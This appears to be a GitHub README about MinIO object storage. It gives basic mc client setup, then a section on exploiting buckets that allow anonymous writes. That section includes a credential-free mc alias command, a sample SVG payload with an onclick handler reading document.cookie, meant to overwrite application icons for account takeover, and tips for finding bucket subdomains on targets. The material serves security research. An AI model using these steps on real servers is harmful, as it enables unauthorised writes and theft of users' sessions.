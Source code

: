 <h1 align="center">
  <br>
  <a href=""><img src="/img/logo.png" alt="" width="300px;"></a>
  <br>
  <img src="https://img.shields.io/badge/PRs-welcome-blue">
  <img src="https://img.shields.io/github/last-commit/kh4sh3i/MinIO">
  <img src="https://img.shields.io/github/commit-activity/m/kh4sh3i/MinIO">
  <a href="https://twitter.com/intent/follow?screen_name=kh4sh3i_"><img src="https://img.shields.io/twitter/follow/kh4sh3i_?style=flat&logo=twitter"></a>
  <a href="https://github.com/kh4sh3i"><img src="https://img.shields.io/github/stars/kh4sh3i?style=flat&logo=github"></a>
</h1>




# MinIO
MinIO Object Storage 🧮

# Minio Console
To copy a file from your localhost to a MinIO server using the mc (MinIO Client), follow these steps:

## 1. Install mc client:
```
curl -O https://dl.min.io/client/mc/release/linux-amd64/mc
chmod +x mc
sudo mv mc /usr/local/bin/
```

## 2. Configure MinIO Client:
```
mc alias set myminio http://minio-server-url:9000 YOUR-ACCESS-KEY YOUR-SECRET-KEY

```

## 3. Copy a file from localhost to MinIO:
```
mc cp /home/user/example.txt myminio/mybucket/
```

# minio vunlenability
by default bucket is public and attacker can write file in minio bucket without any credential !

* default is :
```
mc alias set myminio/ http://MINIO-SERVER MYUSER MYPASSWORD
```

* in vulnerable server use :
```
mc alias set myminio/ http://MINIO-SERVER 
```

## ACO in minio
minio bucket with insufficient permissions that anyone can upload files and overwrite existing files . Attacker can upload malicious svg and overwrite existing icons and takeover any other users account that clicks on application icons such as "sort"

Example of malicious overwritten file :

```
<svg onclick="javascript:console.log(document.cookie)" width="16" height="16" viewBox="0 0 16 16" fill="none" xmlns="http://www.w3.org/2000/svg">
<path d="M2 12V10.6667H6V12H2ZM2 8.66667V7.33333H10V8.66667H2ZM2 5.33333V4H14V5.33333H2Z" fill="#13141F" fill-opacity="0.9"/>
</svg>
```


## find bucket url
default use @ in url 
```
https://cdn.target.com/@foo-banner/e0a9c740db7682.jpg?width=1920&quality=100

recon subdomani for find minio bucket subdomain : 
https://minio.target.app/foo-banner
```





# Refrence
[min.io](https://min.io/download?license=agpl&platform=linux)